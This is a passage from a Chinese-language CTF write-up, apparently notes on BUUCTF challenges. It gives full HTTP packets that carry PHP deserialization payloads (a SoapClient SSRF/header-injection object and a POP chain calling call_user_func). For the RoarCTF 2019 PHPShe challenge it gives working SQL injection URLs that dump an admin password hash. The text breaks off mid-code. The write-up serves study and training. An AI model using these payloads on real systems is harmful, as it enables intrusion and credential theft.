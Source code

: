 数据包：
POST /index.ph HTTP/1.1
Host: ba7f99ed-9458-4e45-953f-a28cd1dd7a5c.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Referer: http://ba7f99ed-9458-4e45-953f-a28cd1dd7a5c.node3.buuoj.cn/index.php
Cookie: PHPSESSID=troy3e;
Content-Type: multipart/form-data; boundary=--------1995995913
Content-Length: 440
Connection: close
Accept-Encoding: gzip,deflate

----------1995995913
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

|O:10:"SoapClient":4:{s:3:"uri";s:4:"aaab";s:8:"location";s:30:"http://127.0.0.1/interface.php";s:11:"_user_agent";s:60:"wupco
X-Forwarded-For: 127.0.0.1
Cookie: user=xZmdm9NxaQ==";s:13:"_soap_version";i:1;}
----------1995995913
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain


----------1995995913--

数据包2：
POST /se.php HTTP/1.1
Host: ba7f99ed-9458-4e45-953f-a28cd1dd7a5c.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=troy3e;
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 276

aa=O:2:"bb":2:{s:4:"mod1";O:2:"aa":2:{s:4:"mod1";N;s:4:"mod2";a:1:{s:5:"test2";O:2:"cc":3:{s:4:"mod1";O:2:"ee":2:{s:4:"str1";O:2:"dd":3:{s:4:"name";N;s:4:"flag";s:8:"Get_flag";s:1:"b";s:14:"call_user_func";}s:4:"str2";s:7:"getflag";}s:4:"mod2";N;s:4:"mod3";N;}}}s:4:"mod2";N;}

pop链比较简单就不写了，忘了的话看参考链接。
数据包最好能自己python写了然后bp抓，这样记忆会更深。

## [RoarCTF 2019]PHPShe
关键词：CVE-2019-9762：phar反序列化
没办法注册，直接刷掉了一堆网上的cve。
但这个还能用：/include/plugin/payment/alipay/pay.php?id=pay`%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12%23_
用反引号是因为源码里插入就是反引号，这里的下划线大概是和本身传入的pay_2891314719这种格式有关，必须得加上。然后会发现burp回显3，不是很明显需要仔细点看。
把3换成database()得到phpshe2，然而接下来却无法直接注出表名，需要用到无列名注入：https://zhuanlan.zhihu.com/p/98206699
/include/plugin/payment/alipay/pay.php?id=pay`%20where%201=1%20union%20select%201,2,((select`3`from(select%201,2,3,4,5,6%20union%20select%20*%20from%20admin)a%20limit%201,1)),4,5,6,7,8,9,10,11,12%23_
得到2476bf5c8d3653e843b6ed42c0672b91解密altman777，成功登入后台。
根据WP 说是在源码中的类文件进行了修改（可以用diffinity对比出来，几万行代码是不可能手动找的
public function __destruct()
